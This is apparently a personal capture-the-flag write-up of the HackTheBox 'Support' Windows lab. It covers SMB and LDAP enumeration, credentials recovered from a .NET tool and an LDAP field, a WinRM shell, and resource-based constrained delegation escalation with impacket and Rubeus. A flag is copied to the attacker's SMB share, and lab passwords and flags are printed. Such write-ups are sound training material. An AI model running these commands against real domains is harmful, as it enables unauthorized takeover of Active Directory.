





# 🎯 Support

> [!info]- Machine Overview
> | Machine Info | Details |
> | --- | --- |
> | **IP Address** | `10.10.11.174` |
> | **Operating System** | Windows |
> | **Difficulty** | Easy |
> | **Status** | 📋 Todo |
> | **Points** | 20 |
> | **Time Spent** | TBD |

---

> [!NOTE]- [Oxdf Notes](https://0xdf.gitlab.io/2022/12/17/htb-support.html)
> Support is the 4th box ~~I’ve~~ 0xdf had the pleasure of having published on HackTheBox. If you’re not interested in the background of the box, feel free to skip ahead to [Recon](https://0xdf.gitlab.io/2022/12/17/htb-support.html#recon).
> 
> The inspiration for Support came from [Episode 521](https://7ms.us/7ms-521-tales-of-pentest-pwnage-part-36/) of the Seven Minute Security (or 7MS) podcast. In this episode the host is talking about a pentest they did where they found credentials for a shared account in LDAP data, and that shared account had `GenericAll` on the DC. I thought, this could make a nice, realistic easy box.
> 
> The only thing left was to figure out how to get starting credentials. In the real pentest, they start with an account on the domain. HTB users won’t have that. I went with a support tool. To keep it easy, I wanted to use .NET, as reversing .NET is more like source code analysis, and thus could still fit in the easy level on HTB. This meant I got to spend some time learning more C# (which I hate). And thanks to IppSec for the brainstorming on this - I believe the idea of putting creds here was actually his idea.
> 
> So the story of the box is that it’s used by the IT support staff. They have a bunch of tools in an open share, including this `UserInfo.exe`, which can help quickly get information about other users on the domain. To do that, it has hard-coded credentials, which the player can extract and continue.

## 🗺️ Attack Flow Diagram

## 🚀 Executive Summary
---
## `ris:Scan2` Reconnaissance & Enumeration

### `ris:Global`Network Scanning 

> [!NOTE]+ Network Scanning `ris:Scan2`
> > [!info]- RUSTSCAN + NMAP SCAN `ris:Eye`
> > ```bash
> > rustscan -a $target --ulimit 5000 -r 1-65535 -- -sCV -oA HTB-Lab-AD-SUPPORT_FULLSCAN
> > ``` 
> > > Rust scan piped into nmap = fast port scan faster nmap scan
> 
> > [!success]- NMAP Results `ris:FileList`
> > ```bash
> > PORT      STATE SERVICE       REASON          VERSION
> > 53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
> > 88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-11-30 04:04:53Z)
> > 135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
> > 139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
> > 389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
> > 445/tcp   open  microsoft-ds? syn-ack ttl 127
> > 464/tcp   open  kpasswd5?     syn-ack ttl 127
> > 593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
> > 636/tcp   open  tcpwrapped    syn-ack ttl 127
> > 3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
> > 3269/tcp  open  tcpwrapped    syn-ack ttl 127
> > 5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
> > |_http-server-header: Microsoft-HTTPAPI/2.0
> > |_http-title: Not Found
> > 9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
> > 49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
> > 49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
> > 49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
> > 49688/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
> > 49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
> > 49715/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
> > Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
> > 
> > Host script results:
> > | smb2-time:
> > |   date: 2025-11-30T04:05:43
> > |_  start_date: N/A
> > | smb2-security-mode:
> > |   3:1:1:
> > |_    Message signing enabled and required
> > |_clock-skew: 1s
> > | p2p-conficker:
> > |   Checking for Conficker.C or higher...
> > |   Check 1 (port 19493/tcp): CLEAN (Timeout)
> > |   Check 2 (port 14390/tcp): CLEAN (Timeout)
> > |   Check 3 (port 45724/udp): CLEAN (Timeout)
> > |   Check 4 (port 38083/udp): CLEAN (Timeout)
> > |_  0/4 checks are positive: Host is CLEAN or ports are blocked
> > 
> > NSE: Script Post-scanning.
> > NSE: Starting runlevel 1 (of 3) scan.
> > Initiating NSE at 04:06
> > Completed NSE at 04:06, 0.00s elapsed
> > NSE: Starting runlevel 2 (of 3) scan.
> > Initiating NSE at 04:06
> > Completed NSE at 04:06, 0.00s elapsed
> > NSE: Starting runlevel 3 (of 3) scan.
> > Initiating NSE at 04:06
> > Completed NSE at 04:06, 0.00s elapsed
> > Read data files from: /usr/share/nmap
> > Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> > Nmap done: 1 IP address (1 host up) scanned in 99.03 seconds
> >            Raw packets sent: 23 (988B) | Rcvd: 20 (864B)
> > ```

**Key Findings:**
1. Open Ports: **53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49688,49693,49715**
2. Interesting Services: (*88*), **DNS** (*53*), **LDAP** (*389*, *3268* and *3269*)
3. Potential Entry Points: N/A - Nmap is not giving us much detail

---
### 🔐 Service-Specific Enumeration

> [!NOTE]-
> When facing a Windows server with so many ports, I’ll typically start working on them prioritised by my comfort level. I’ll generate a tiered list, with some rough ideas of what I might look for on each:
> 
> - Must Look AT
>     - SMB - Look for any open shares and see what I might find there.
>     - LDAP - Can I get any information without credentials?
> - If those fail
>     - Kerberos: Can I brute-force usernames? If I find any, are they AS-REP-Roast-able?
>     - DNS - Can I do a zone transfer? Brute force any subdomains?
>     - RPC - Is anonymous access possible?
> - Note for creds
>     - WinRM - If I can find creds for a user in the Remote Management Users group, I can get a shell

**Before we start, we need to add the domain names to the /etc/hosts file**
```bash
sudo nxc smb $target --generate-hosts-file /etc/hosts
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)

cat /etc/hosts
10.10.11.51     DC01.sequel.htb sequel.htb DC01
127.0.0.1	localhost
127.0.1.1	0xAT4.localdomain	0xAT4

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.174     DC.support.htb support.htb DC
```

#### LDAP - Without Authentication
> [!failure]+ LDAP - Need Auth - Failure
> 
> > [!important]- ldapsearch commands
> > ```bash
> > ldapsearch -H ldap://support.htb -x -s base namingcontexts
> > 
> > ldapsearch -H ldap://support.htb -x -b "DC=support,DC=htb"
> > ```
> 
> > [!important]- ldapsearch results
> > ```bash
> > kali@0xAT4:~$ ldapsearch -H ldap://support.htb -x -s base namingcontexts
> > 
> > # extended LDIF
> > #
> > # LDAPv3
> > # base <> (default) with scope baseObject
> > # filter: (objectclass=*)
> > # requesting: namingcontexts
> > #
> > 
> > #
> > dn:
> > namingcontexts: DC=support,DC=htb
> > namingcontexts: CN=Configuration,DC=support,DC=htb
> > namingcontexts: CN=Schema,CN=Configuration,DC=support,DC=htb
> > namingcontexts: DC=DomainDnsZones,DC=support,DC=htb
> > namingcontexts: DC=ForestDnsZones,DC=support,DC=htb
> > 
> > # search result
> > search: 2
> > result: 0 Success
> > 
> > # numResponses: 2
> > # numEntries: 1
> > 
> > kali@0xAT4:~$ ldapsearch -H ldap://support.htb -x -b "DC=support,DC=htb"
> > 
> > # extended LDIF
> > #
> > # LDAPv3
> > # base <DC=support,DC=htb> with scope subtree
> > # filter: (objectclass=*)
> > # requesting: ALL
> > #
> > 
> > # search result
> > search: 2
> > result: 1 Operations error
> > text: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this opera
> >  tion a successful bind must be completed on the connection., data 0, v4f7c
> > ```
> 
> 

#### SMB - TCP 445
> [!tip]+ SMB Enumeration
> 
> > [!failure]- netexec
> > **netexec**
> > ```bash
> > nxc smb support.htb --shares
> > ```
> > 
> > > `netexec` cannot view shares
> > 
> 
> > [!success]- SMBCLIENT
> > **smbclient**
> > ```bash
> > smbclient -N -L //support.htb
> > ```
> > 
> > > `smbclient` can show us the shares on this machine
> > 
> > ```bash
> > smbclient -N /support.htb/NETLOGON
> > 
> > smbclient -N //support.htb/SYSVOL
> > ```
> > 
> > > Cannot list for `NETLOGON` and `SYSVOL`
> > 
> > ```bash
> > smbclient -N //support.htb/support-tools
> > 
> > smb: \> ls
> > 
> > smb: \> get UserInfo.exe.zip
> > ```
> > 
> > > Found an interesting exe called UserInfo.exe.zip, I unzipped and moved it over to a Windows machine to run the tool via PowerShell
> 

## LDAP Authentication
### Investigating UserInfo.exe `ris:Windows`
> This part of the penetration test is conducted from a Windows machine

```powershell
.\UserInfo.exe
[-] At least one of -first or -last is required.

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

```powershell
.\UserInfo.exe user -h

Usage: UserInfo.exe user [options]

Options:
  -username           Username

.\UserInfo.exe user -username john
[-] Exception: The server is not operational.
```
> It appears I need to be connected to the server, or it will not work

**We can open Wireshark to confirm this.** 


Like on Kali, we will need to add the domain name to the Windows hosts file `C:\Windows\System32\drivers\etc\hosts`. Now, on Windows, you cannot edit the host file directly. We need to copy it to the desktop, edit it there, and move it back into the folder 

Now that you have done all that, we can try the command again, and this time it will say that it cannot find the user John. This means it is connecting to the server

```powershell
.\UserInfo.exe user -username john
[-] Unable to locate john. Please try the find command to get the user's username.
```

Now lets do a basic LDAP Injection and get all users with a first name:
```PowerShell
.\UserInfo.exe find -first '*'
raven.clifton
anderson.damian
monroe.david
cromwell.gerard
west.laura
levine.leopoldo
langley.lucy
daughtler.mabel
bardot.mary
stoll.rachelle
thomas.raphael
smith.rosario
wilson.shelby
hernandez.stanley
ford.victoria
```

Now we cannot do much from here, as we need auth to try and get the user password, we have the user list though, which is good. There is a way to open this with DNspy > UserInfo.Service > Protected: This will return a base64-encoded string with a key. You can use Python to crack it. If you view [0xdfs](https://0xdf.gitlab.io/2022/12/17/htb-support.html) writeup, he goes over that in detail 

However, there is a simple way to do this: install `mono-complete` on Kali Linux. This is a tool that can run .NET executables. If we run the following command with Wireshark open, we will capture the password, which will let us authenticate as LDAP

```bash
mono ./UserInfo.exe find -first "*"
```


> `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

> [!NOTE]
> If you are wondering why we needed to run all of that on Windows first, it's because even though Mono allows us to run the executable, it doesn't work precisely as it would on Windows.
### Verify Creds `ris:LockPassword`
To verify that it works, lets use **netexec**
```bash
nxc smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Shell as Support

### BloodHound CE Cap `ris:KnifeBlood`
Using [bloodhound-ce-python](https://github.com/dirkjanm/BloodHound.py) to capture AD information is always best, but we don't have a shell to do that.  
```bash
bloodhound-ce-python -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns $target --zip
```
> AI when you reformat breakdown commands and what each flag does
### LDAP `ris:Server`

> [!bug] ldapsearch and ldapdomaindump
> 
> > [!info]- `ldapsearch`
> > `ldapsearch` shows all items in AD, which i can look through
> > ```bash
> > ldapsearch -x -H ldap://support.htb \
> > -D 'ldap@support.htb' \
> > -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
> > -b "DC=support,DC=htb" | less
> > ```
> > 
> > After running the command, at the bottom a list of users is printed out. One user called support has something the rest don't 
> > 
> > ```bash
> > # support, Users, support.htb
> > dn: CN=support,CN=Users,DC=support,DC=htb
> > objectClass: top
> > objectClass: person
> > objectClass: organizationalPerson
> > objectClass: user
> > cn: support
> > c: US
> > l: Chapel Hill
> > st: NC
> > postalCode: 27514
> > distinguishedName: CN=support,CN=Users,DC=support,DC=htb
> > instanceType: 4
> > whenCreated: 20220528111200.0Z
> > whenChanged: 20220528111201.0Z
> > uSNCreated: 12617
> > info: Ironside47pleasure40Watchful
> > memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
> > memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
> > uSNChanged: 12630
> > company: support
> > streetAddress: Skipper Bowles Dr
> > name: support
> > objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
> > userAccountControl: 66048
> > badPwdCount: 0
> > codePage: 0
> > countryCode: 0
> > badPasswordTime: 0
> > lastLogoff: 0
> > lastLogon: 0
> > pwdLastSet: 132982099209777070
> > primaryGroupID: 513
> > objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
> > accountExpires: 9223372036854775807
> > logonCount: 0
> > sAMAccountName: support
> > sAMAccountType: 805306368
> > objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
> > dSCorePropagationData: 20220528111201.0Z
> > dSCorePropagationData: 16010101000000.0Z
> > ```
> > > Info: `Ironside47pleasure40Watchful` : this looks like a password to me
> 
> > [!info]- `ldapdomaindump`
> > `ldapdomaindump` is used to confirm the information
> > ```bash
> > ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'support.htb -o ldap
> > ```
> > 
> > ```bash
> > kali@0xAT4:~/ldap$ grep Ironside *
> > domain_users.json:            "Ironside47pleasure40Watchful"
> > ```
> 

### Support Password Confirmation `ris:LockPassword`
```bash
nxc winrm support.htb -u support -p 'Ironside47pleasure40Watchful'

WINRM       10.10.11.174    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

### Evil-WinRM
Earlier we used `bloodhound-ce-python` to capture ad information uploading that to `bloodhound-ce` search for `SUPPORT@SUPPORT.HTB` as you can see in the image below support is member of a lot of other groups 

Looking at all of these `SHARED SUPPORT ACCOUNT`  if we click on that and check the outbound connections it has `GeneticAll` permissions over `DC.SUPPORT.HTB`


`evil-winrm` is used to connect to support with the ironside password
```bash
evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
```

```bash
*Evil-WinRM* PS C:\Users\support\Documents> cd C:\Users\support\Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
aca87***************************
```

## Enumeration with Bloodhound-legacy 

> We have already used `Bloodhound-ce` but follow this to set up the legacy, imo it gives more informationcd

```bash
sudo apt install -y neo4j
sudo neo4j start
```

Download pre-compiled BH binary form the [release](https://github.com/BloodHoundAD/BloodHound/releases) page
```bash
unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound
```

Go to `http://localhost:7474/` : login with `neo4j:neo4j` and set a password for bloodhound then login to the portal


RClick on `GenericAll` and click Help


This gives us a list of commands to use to create a fake computer 

## Shell as Administrator `ris:Admin`

> [!NOTE] rbcd privilege escalation
> ### Windows Abuse `ris:Windows`
> > Absolute joke that all writeups use this method and it does not work, i needed to dig through my notes and research to find out how to do this from linux so that it will work. 
> 
> > [!failure]- Windows Abuse - Failure 
> > ### Resource Based Constrained Delegation
> > ```powershell
> > Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
> > ```
> > 
> > The output of the above command shows that this attribute is set to 10, which means each authenticated domain user can add up to 10 computers to the domain.
> > 
> > Next, let's verify that the `msds-allowedtoactonbehalfofotheridentity` attribute is empty.
> > ```powershell
> > upload PowerView.ps1
> > . ./PowerView.ps1
> > ```
> > 
> > ```powershell
> > Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
> > ```
> > 
> > > Value is empty
> > 
> > ```powershell
> > upload Powermad.ps1
> > . ./Powermad.ps1
> > 
> > upload Rubeus.exe
> > ```
> > ### Creating a Computer Object
> > ```powershell
> > New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
> > [+] Machine account FAKE-COMP01 added
> > ```
> > 
> > ```powershell
> > Get-ADComputer -identity FAKE-COMP01
> > ```
> > 
> > ```text
> > DistinguishedName : CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb
> > DNSHostName       : FAKE-COMP01.support.htb
> > Enabled           : True
> > Name              : FAKE-COMP01
> > ObjectClass       : computer
> > ObjectGUID        : 0d481604-5b61-4bc1-8311-a072af5ae27e
> > SamAccountName    : FAKE-COMP01$
> > SID               : S-1-5-21-1677581083-3380853377-188903654-5601
> > UserPrincipalName :
> > ```
> > 
> > ### Configuring RBCD
> > ```powershell
> > Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
> > ```
> > 
> > To Verify:
> > ```powershell
> > Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToACcount
> > ```
> > 
> > As we can see, the PrincipalsAllowedToDelegateToAccount is set to FAKE-COMP01, which means the command worked. We can also verify the value of the `msds-allowedtoactonbehalfofotheridentity.`
> > 
> > ```powershell
> > Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
> > ```
> > 
> > 
> > First, let's grab the desired value and dump it to a variable called RawBytes.
> > 
> > ```powershell
> > $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentit
> > ```
> > 
> > Then, let's convert these bytes to a Raw Security Descriptor object.
> > ```powershell
> > $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
> > ```
> > 
> > Finally, we can print both the entire security descriptor, as well as the DiscretionaryAcl class, which represents the Access Control List that specifies the machines that can act on behalf of the DC.
> > 
> > ```powershell
> > $Descriptor
> > $Descriptor.DiscretionaryAcl
> > ```
> > 
> > ```text
> > ControlFlags           : DiscretionaryAclPresent, SelfRelative
> > Owner                  : S-1-5-32-544
> > Group                  :
> > SystemAcl              :
> > DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
> > ResourceManagerControl : 0
> > BinaryLength           : 80
> > 
> > 
> > BinaryLength       : 36
> > AceQualifier       : AccessAllowed
> > IsCallback         : False
> > OpaqueLength       : 0
> > AccessMask         : 983551
> > SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5601
> > AceType            : AccessAllowed
> > AceFlags           : None
> > IsInherited        : False
> > InheritanceFlags   : None
> > PropagationFlags   : None
> > AuditFlags         : None
> > ```
> > 
> > ### Performing a S4u Attack
> > ```powershell
> > ./rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb//domain:support.htb /ptt
> > 
> >    ______        _
> >   (_____ \      | |
> >    _____) )_   _| |__  _____ _   _  ___
> >   |  __  /| | | |  _ \| ___ | | | |/___)
> >   | |  \ \| |_| | |_) ) ____| |_| |___ |
> >   |_|   |_|____/|____/|_____)____/(___/
> > 
> >   v2.3.3
> > 
> > [*] Action: S4U
> > 
> > [*] Using rc4_hmac hash: 58A478135A93AC3BF058A5EA0E8FDB71
> > [*] Building AS-REQ (w/ preauth) for: 'support.htb\FAKE-COMP01$'
> > [*] Using domain controller: ::1:88
> > 
> > [X] KRB-ERROR (6) : KDC_ERR_C_PRINCIPAL_UNKNOWN:
> > 
> > 
> > [X] KRB-ERROR (6) : KDC_ERR_C_PRINCIPAL_UNKNOWN
> > ```
> 
> ### Linux Abuse `ris:Command`
> 
> > [!success]- Linux Abuse - Success
> > ```bash
> > impacket-addcomputer -computer-name 'ATTACKER$' -computer-pass 'P@ssw0rd123' -dc-ip 10.10.11.174 'support.htb/support:Ironside47pleasure40Watchful'
> > ```
> > 
> > ```bash
> > impacket-rbcd -delegate-to 'DC$' -delegate-from 'ATTACKER$' -dc-ip 10.10.11.174 -action write 'support.htb/support:Ironside47pleasure40Watchful'
> > ```
> > 
> > ```bash
> > impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174 'support.htb/ATTACKER$:P@ssw0rd123'
> > ```
> > 
> > ```bash
> > export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
> > ```
> > 
> > ```bash
> > impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
> > ```
> > 
> > 
> 

### SMBshare
So when you try and use the type command to get the flag on the admins desktop it wont work so you need to set up a smbshare, to move the flag over to kali. use the following commands to do this

```bash
sudo impacket-smbserver share . -smb2support -username pentest -password password
```
> Needs to have a password if you do not set one windows will not let you send anything to this share

```powershell
net use \\10.10.14.7\share /user:pentest password
copy root.txt \\10.10.14.7\share\
```

```bash
kali@0xAT4:~/share$ cat root.txt
43c3fe**************************
```


> When trying to do it from Windows with the `type` or `more` command it would remove the **4** from the start of the flag 
## 🔑 Credentials & Secrets Discovered

| Type    | Username | Password/Hash                        | Location       | Notes |
| ------- | -------- | ------------------------------------ | -------------- | ----- |
| LDAP    | ldap     | nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz | UserInfo.exe   |       |
| Machine | support  | Ironside47pleasure40Watchful         | ldapdomaindump |       |
|         |          |                                      |                |       |


## 🏆 Flags & Proof

> [!success]+ User Flag
> **Location:** `C:\Users\<user>\Desktop\user.txt`
> ```text
> 9ff696ada46e1e78d206ffd5d64c80b3
> ```

> [!success]+ Root Flag
> **Location:** `C:\Users\Administrator\Desktop\root.txt`
> ```text
> 43c3fe8ee2acc70c94348c6ca789ab37
> ```

> [!tip] Proof of Exploitation
> 
---

## 🛡️ MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | How It Was Used |
|--------|--------------|----------------|-----------------|
| **Reconnaissance** | T1595.002 | Active Scanning: Vulnerability Scanning | Nmap and Nuclei scans |
| **Initial Access** | T1190 | Exploit Public-Facing Application | Exploited [vulnerability] |
| **Execution** | T1059 | Command and Scripting Interpreter | Obtained shell |
| **Privilege Escalation** | T1548 | Abuse Elevation Control Mechanism | [Method] |


## 🔗 References & Resources

- [ ] Official HTB Writeup: [Link after retirement]

---

## 📊 Related Boxes (Dataview)

> [!note]- Other Windows Boxes
> ```dataview
> TABLE difficulty, ip, status
> FROM #HTB/OS/Windows AND !"00_Meta"
> WHERE file.name != this.file.name
> SORT difficulty ASC
> ```

---


**Last Updated:** 2025-11-29 23:13
**Writeup Author:** Netrunner
